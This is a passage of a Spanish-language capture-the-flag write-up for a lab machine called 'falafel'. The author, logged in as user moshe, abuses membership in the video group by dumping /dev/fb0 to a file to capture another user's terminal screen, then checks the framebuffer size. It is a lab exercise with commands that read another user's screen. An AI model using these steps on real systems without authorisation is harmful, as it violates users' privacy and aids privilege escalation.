 Tiene una terminal abierta

Estoy en varios grupos asignado

```null
moshe@falafel:~$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
```

Como estoy en el grupo video, puedo intentar sacar una captura de pantalla de la terminal de ```yossi```. Busco por los archivos que tengan pertenezcan a ```video```

```null
moshe@falafel:/$ find \-group video 2>/dev/null 
./dev/fb0
./dev/dri/card0
./dev/dri/renderD128
./dev/dri/controlD64
```

En [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-privesc#video-group) hay una sección dedicada a esto. Exporto el contenido de ```/dev/fb0``` a un archivo para traerlo a mi equipo

```null
cat /dev/fb0 > /tmp/screen.raw
```

Lo detecta como una imagen

```null
file captura.raw
captura.raw: Targa image data - Map (256-257) 257 x 1 x 1 +257 +1 - 1-bit alpha "\001"
```

De primeras no la puedo abrir, faltan archivos

```null
icat captura.raw
Failed to open image: captura.raw with error: identify-im6.q16: delegate failed `'ufraw-batch' --silent --create-id=also --out-type=png --out-depth=16 --output='%u.png' '%i'' @ error/delegate.c/InvokeDelegate/1966.
identify-im6.q16: unable to open image `/tmp/magick-Z7LyQiGHX0NkOqIZcX4lQisAnVx690G7.ppm': No such file or directory @ error/blob.c/OpenBlob/2924.
```

Miro cual es el tamaño de la terminal de ```yossi```

```null
moshe@falafel:/$ find \-name fb0 2>/dev/null 
./sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0
./sys/class/graphics/fb0
./dev/fb0

moshe@falafel:/tmp$ cat /sys/class/graphics/fb0/virtual_size
1176,885
```
